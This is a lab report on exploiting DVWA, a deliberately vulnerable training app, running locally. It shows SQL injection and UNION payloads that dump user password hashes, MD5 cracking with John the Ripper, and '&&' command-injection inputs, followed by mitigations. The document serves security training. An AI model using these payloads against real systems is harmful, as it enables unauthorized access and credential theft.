 # Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.
  

   ### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.
  

### C. Crack MD5 hashes
1. save the hash 
- echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

### crack with John (MD5)
1. sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
2. sudo john --show --format=raw-md5 hashes.txt
Result: cracked passwords saved

### D. Command Injection Payloads
1. 127.0.0.1 && uname -a- show OS info
2. 127.0.0.1 && id - show effective user
3. 127.0.0.1 && ls -la /var/www/html - list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact

1.Full disclosure of user credentials (including admin).

2. Unauthorized administrative access to web app (dashboard).

3. Data exfiltration, account takeover, and lateral movement potential.

4. Remote command execution as web user — may enable privilege escalation.

5. Business impact: Severe (data breach, regulatory risk, reputational/financial loss).

6. Availability: Medium (attacker could deface or disrupt services).

7. Integrity: High (attacker can modify or delete data).

8. Confidentiality: High (attacker can access admin-only data).

## 7. Mitigation & Recommendations

### Immediate

1. Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

2. Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

1. Use parameterized queries / prepared statements (no string concatenation).

2. Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

3. Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

4. Ensure DB accounts are least-privilege.

### Operational

1. Deploy a WAF to detect/block SQLi/command injection patterns.

2. Enable logging, monitoring, and alerting for suspicious activity.

3. Schedule SAST/DAST scans and developer secure-coding training 

## 8. Ethics & Notes

All testing and evidence were produced on a local DVWA instance under my control. Do not run these tests against systems you do not own or have explicit written permission to test.

## Screenshots

![Photo of John the Ripper](Screenshots/john.png)
![photot of webroot](Screenshots/webroot.png)
![photo of uname](Screenshots/uname.png)
![photo sql](Screenshots/sql.png)
![photo of SQL](Screenshots/SQL_Injection.png)
![photo if id](Screenshots/id.png)




